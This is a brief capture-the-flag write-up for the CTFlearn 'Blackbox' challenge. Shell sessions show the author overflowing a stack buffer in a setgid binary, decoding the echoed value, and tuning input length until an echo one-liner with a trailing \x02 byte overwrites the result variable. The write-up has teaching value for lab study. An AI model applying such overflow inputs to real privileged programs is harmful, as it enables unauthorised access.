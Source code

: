 # [Blackbox](https://ctflearn.com/challenge/401)

Permissions for blackbox executable are: ---x--s--x \
So, no gdb, no xxd, nothing. The only thing allowed is to execute the binary

```shell
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox 
What is 1 + 1 = 2
No dummy... 1 + 1 != 0...
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox 
What is 1 + 1 = 2222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222
No dummy... 1 + 1 != 842150450...
*** stack smashing detected ***: <unknown> terminated

[4]+  Stopped                 ./blackbox
```

842150450 = 0x32323232, and 0x32 = 50 = ASCII value of '2'

So, we need to overflow the buffer to the precise amount so that result becomes 2 (= 0x2)

```shell
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox 
What is 1 + 1 = 22222222222222222222222222222222222222222222222222222222222222222222222222     
No dummy... 1 + 1 != 0...
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox 
What is 1 + 1 = 22222222222222222222222222222222222222222222222222222222222222222222222222222222222
No dummy... 1 + 1 != 3289650...
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox 
What is 1 + 1 = 222222222222222222222222222222222222222222222222222222222222222222222222222222222     
No dummy... 1 + 1 != 50...
```

Got it!

```shell
blackbox@ubuntu-512mb-nyc3-01:~$ echo -n -e "22222222222222222222222222222222222222222222222222222222222222222222222222222222\x02" | ./blackbox 
```
